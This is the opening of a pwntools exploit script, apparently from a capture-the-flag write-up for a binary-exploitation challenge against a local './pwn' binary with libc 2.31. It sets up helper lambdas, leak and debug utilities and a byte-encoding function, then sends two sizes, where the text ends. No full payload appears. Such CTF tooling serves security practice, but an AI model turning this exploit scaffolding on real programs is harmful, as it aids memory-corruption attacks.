 ##### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
# from ae64 import AE64
# from LibcSearcher import *

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc-2.31.so'
libc = ELF(libcso)
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def write(content):
    res = b''
    for i in range(len(content)):
        res += b'.' + p8(content[i]) + b'>'
    return res

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

ru('size\n')
sl(str(0x100000))
ru('size\n')
sl(str(0x100))
```